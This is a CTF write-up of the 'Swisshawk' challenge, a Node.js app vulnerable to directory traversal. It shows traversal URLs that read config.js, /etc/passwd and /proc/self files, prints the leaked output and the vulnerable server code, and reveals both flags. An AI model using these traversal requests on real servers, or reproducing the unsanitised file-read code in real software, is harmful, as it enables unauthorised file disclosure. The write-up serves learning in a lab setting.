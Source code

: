 ```yaml
---
layout: post
title: Gawds CTF/ Swisshawk 
desc: This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, it made me learn a new vector in post-exploitation of web apps.
comments: true
---
```


## Description

This challenge seemed easy in the beginning. The second part of challenge had me breaking my head, 
it made me learn a new vector in post-exploitation of web apps.

Your friend Tamanna is in danger, swisshawk defaced her website and hidden some flags in there.

Tamanna can only restore the website if she knows the flags, please help tamanna get her website back!

[http://swisshawk.ctf.gawds.in](http://swisshawk.ctf.gawds.in)

* * * 

## The Challenge

The challenge in a sense was quite straight forward. Opening the page greets you with a steady message.

![Challenge](/public/assets/images/startup-swisshack.png) 

As always the entry point being the source, I decided to give it a look.

<pre><p>You will never be able to find the flags, I have very carefully
        hidden it somewhere here &lt;!-- page: /app path: /config.js --&gt;</p></pre>

Looking at the comment it was evident that it was a node.js application.

From the hint, the page was currently in the `app` directory. We have to go to the root directory to access the `config.js` file.

Navigating to the following page:
<pre>http://swisshawk.ctf.gawds.in/../config.js</pre>

<pre><p>module.exports = {
    PORT: process.env.PORT || 3000,
    flag1: 'flag{F1R5T_FL4G_W45NT_THAT_H4RD}',
    flag2: 'you_cant_find_me(I am the server)'
}
<!-- page: /config.js path: /config.js --></p></pre>

<strong>Flag1: flag{F1R5T_FL4G_W45NT_THAT_H4RD} </strong>

## Phase II

Now challenge was finding the second flag. The hint too was very cryptic.
<blockquote>you_cant_find_me(I am the server)</blockquote>


The hint meant flag was present inside the server's directory.

I tried directory traversal. It being a node.js app, I tried various combinations of the entry points like `app.js` `index.js`.

<pre>http://swisshawk.ctf.gawds.in/../index.js
http://swisshawk.ctf.gawds.in/../app.js
http://swisshawk.ctf.gawds.in/app.js
http://swisshawk.ctf.gawds.in/index.js
</pre>

I then tried loading the `/etc/passwd` file.
<pre>http://swisshawk.ctf.gawds.in/../../../../../../../../../../../etc/passwd</pre>

First breakthrough!

<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
u57400:x:57400:57400:,,,:/app:/bin/bash
dyno:x:57400:57400:,,,:/app:/bin/bash
&lt;!-- page: /etc/passwd path: /config.js --&gt;
</pre>

But it still was a dissapointment, I wasn't able to access any of the server files. I went to as far as looking in the `/var/www/` directory.

I came across an article which discussed about post exploitation techniques after a LFI vulnerability. 

One interesting place to look for was the `/proc/` directory. This directory not only contained each process related files as well as file descriptors.

Each process has a directory named by its <strong>process id (pid).</strong>

The shortcut being, it isn't necessary to know the process id to access the directory. The current process directory can be accessed by navigating to the `/proc/self/` directory.

This directory contains four juicy files:

* environ
* cmdline
* maps
* mountinfo

Trying each file: `http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/environ/`
<pre>
SHLVL=1 HOME=/app
PORT=41335PS1=\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]
VERSION=v6.12.3
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NPM_VERSION=3PWD=/appDYNO=web.1NODE_CHANNEL_FD=3
&lt;!-- page: /proc/self/environ path: /config.js --&gt;</pre>

Nothing great.

`http://swisshawk.ctf.gawds.in/../../../../../../../proc/self/cmdline/`
<pre>
/usr/bin/nodeyou_cant_find_me.js
&lt;!-- page: /proc/self/cmdline path: /config.js -->
</pre>

We found the entry point of the node.js application. 

<pre>
const express = require("express");
const config = require("../config");
const flag2 = require("../flag2isHere");
const resolve = require("path").resolve;
const fs = require("fs");

const app = express();

app.use((req, res) => {
    const path = req.originalUrl.substring(1).replace('%2f', '/').replace('%2F', '/');

    let text = `You will never be able to find the flags, I have very carefully
        hidden it somewhere here`;
    if(path) {
        try {
            text = fs.readFileSync(path);
        }
        catch(err) {
            text = err;
        }
    }

    text += "&lt;!-- page: " + resolve(path) + " path: /config.js -->";
    return res.end("&lt;p>" + text + "&lt;/p>");
});

app.listen(config.PORT, () => {
    console.log("Wohooo, all set up, listening on ", config.PORT);
})&lt;!-- page: /app/you_cant_find_me.js path: /config.js -->
</pre>

We find that `../flag2isHere` is the js file containing the flag.

Going to `http://swisshawk.ctf.gawds.in/../flag2isHere.js`

<pre>
<p>module.exports = {
    flag: "ZmxhZ3tUSElTX20xR2hUX0g0dkVfQjMzbl9MMVR0TGVfdFIxY2tZfQ=="
}&lt;!-- page: /flag2isHere.js path: /config.js --></p>
</pre>

We get the base-64 encoded string. Decoding it we get the following flag.

<strong>Flag2: flag{THIS_m1GhT_H4vE_B33n_L1TtLe_tR1ckY}</strong>
